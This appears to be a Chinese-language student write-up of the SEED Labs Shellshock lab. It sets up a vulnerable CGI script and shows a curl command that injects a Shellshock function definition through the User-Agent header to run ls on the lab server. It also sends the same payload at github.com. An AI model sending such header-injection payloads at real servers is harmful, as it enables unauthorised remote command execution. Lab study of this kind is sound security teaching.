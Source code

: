 在这个实验室中，我们将对web服务器容器进行贝壳冲击攻击。许多web服务器支持CGI，这是一种用于在网页和web应用程序上生成动态内容的标准方法。许多CGI程序都是shell脚本，因此在实际的CGI程序运行之前，将首先调用一个shell程序，这样的调用将由用户从远程计算机触发。如果shell程序是一个易受攻击的bash程序，我们可以利用它来获得服务器上的特权。 

在我们的web服务器容器中，我们已经设置了一个非常简单的CGI程序(称为vul.cgi)。它只需使用shell脚本打印出`Hello World`。CGI程序被放在Apache的默认CGI文件夹`/usr/lib/cgi-bin`中，并且它必须是可执行的。

```bash
#!/bin/bash_shellshock
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

CGI程序使用`/bin/bash_shellshock`（第一行），而不是使用`/bin/bash`。这一行指定应该调用什么shell程序来运行该脚本。我们确实需要在这个实验室使用脆弱的攻击。

要从Web访问CGI程序，我们可以通过输入以下URL来使用浏览器：http://www.seedlab-shellshock.com/cgi-bin/vul.cgi，或使用以下命令行程序curl来做同样的事情。请确保Web服务器容器正在运行。

```bash
$ curl http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

 

# 实验室任务

## 任务1：实验bash功能

Ubuntu20.04中的bash程序已经打上了补丁，所以它不再容易受到`shellshock`的攻击。为了这个实验目的，我们在容器(内部  `/bin`)安装了一个脆弱的bash。该程序也可以在Labsetup文件夹中找到(内部 `image_www`)。它的名字叫`bash_shellshock`，我们需要在任务中使用这个bash。您可以在容器中或直接在您的计算机上运行这个shell程序。该容器手册被链接到该实验室的网站上。

请设计一个实验来验证该冲击是否容易受到`Shell Shock`的攻击。对补丁版本`/bin/bash`进行相同的实验，并报告您的观察结果。

我们精心构造一个段攻击指令，用于ls输出文件夹下文件。

```bash
curl -A "() { :;}; echo ; /bin/ls -l" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

果然攻击成功。

![image-20220614204220735](Shellshock/image-20220614204220735.png)

我们攻击其它网址，显然是不会成功的

```bash
curl -A "() { :;}; echo ; /bin/ls -l" https://github.com/
```
